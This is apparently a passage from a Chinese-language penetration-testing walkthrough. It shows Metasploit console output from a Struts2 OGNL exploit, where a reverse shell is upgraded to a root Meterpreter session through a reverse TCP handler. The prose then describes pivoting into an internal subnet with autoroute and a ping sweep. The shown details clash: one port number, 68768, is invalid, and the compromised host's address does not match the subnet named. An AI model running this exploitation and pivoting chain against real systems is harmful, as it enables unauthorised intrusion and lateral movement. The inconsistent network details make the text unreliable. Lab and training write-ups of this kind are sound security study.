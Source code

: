 ```bash
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions
Active sessions
===============
  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.76.128:4433
[*] Sending stage (1017704 bytes) to 192.168.0.106
[*] Meterpreter session 2 opened (192.168.76.128:4433 -> 192.168.0.106:60687) at 2023-07-27 01:44:37 -0400
[*] Command stager progress: 100.00% (467/467 bytes)
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============
  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) >
```

此时使用2号会话的meterperter就可以查看外层主机的网卡信息并获得了一个新的内网网段192.172.84.0/24

![新的内网网段](img/新的内网网段.png)

还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到 post/multi/manage/autoroute 模块，只需要将会话ID填入即可， 之后运行便会自动添加路由信息到Metasploit的路由表中，之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP 地址，可以让端口扫描更快速更高效，这里选择使用模块 post/multi/gather/ping_sweep ，填入必要的options之后就可以进行扫描了：
